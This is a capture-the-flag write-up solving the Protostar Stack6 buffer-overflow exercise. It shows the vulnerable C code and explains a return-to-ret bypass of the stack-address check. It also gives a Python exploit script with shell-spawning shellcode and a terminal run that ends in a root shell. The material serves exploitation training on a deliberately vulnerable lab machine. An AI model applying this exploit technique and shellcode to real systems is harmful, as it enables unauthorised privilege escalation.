 Our goal is to solve this explotation challenge <i> [Stack6](https://exploit.education/protostar/stack-six/)</i>


# Code to exploit 
```

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}


```
## Problem of code
This is a standard buffer overflow challenge but with one difference from the previous one.
The code uses a compiler function called __builtin_return_address which gives us the current
return address of the function and then it checks if the return address starts with 0xbf which is 
the stack. 

So we can't redirect immediately to the stack.

What we will do is "return to the return command its self"

With this technique (return oriented programming) we will pass the check of return address and then the return command will pop
next word from stack and return there 



And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string =  string.split("UUUU")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
        Return = struct.pack ("I",0x080484f9)


#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php

        shellcode ="\x90"*100+"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

        code = "\xCC"*100

        print (string+ Return +EIP+shellcode)


```


Finally we run like this, we use cat to keep stdin open for bin sh

```

user@protostar:~$ (python stack6.py ; cat ) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT��
ls -all
total 33
drwxr-xr-x 2 user user  160 Sep  2 06:05 .
drwxr-xr-x 6 root root   60 Oct 31  2012 ..
-rw------- 1 user user  172 Sep  2 06:05 .bash_history
-rw-r--r-- 1 user user  220 Apr 10  2010 .bash_logout
-rw-r--r-- 1 user user 3184 Apr 10  2010 .bashrc
-rw-r--r-- 1 user user  675 Apr 10  2010 .profile
-rwxr-xr-x 1 user user 4580 Sep  2 04:58 a.out
-rw-r--r-- 1 user user  323 Sep  2 05:21 format4.py
-rw-r--r-- 1 user user  122 Sep  2 04:58 main.c
-rw-r--r-- 1 user user 1142 Sep  2 06:07 stack6.py
-rw-r--r-- 1 user user   38 Sep  2 05:21 tmp
whoami 
root



```

and we get the expected output
